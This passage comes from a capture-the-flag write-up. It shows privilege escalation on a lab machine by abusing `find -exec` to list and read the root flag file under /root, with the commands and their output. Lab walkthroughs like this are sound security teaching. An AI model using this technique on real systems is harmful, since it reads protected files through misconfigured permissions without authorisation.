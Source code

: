 Oh oh... `find` is on the list. This command allows to execute actions, let's exploit this.

Answer: `find`

## #4 - root.txt

~~~
stoner@Vulnerable:/$ find /root -exec ls /root \;
root.txt
root.txt
stoner@Vulnerable:/$ find /root -exec cat /root/root.txt \;
It wasn't that hard, was it?
It wasn't that hard, was it?
~~~

Answer: `It wasn't that hard, was it?`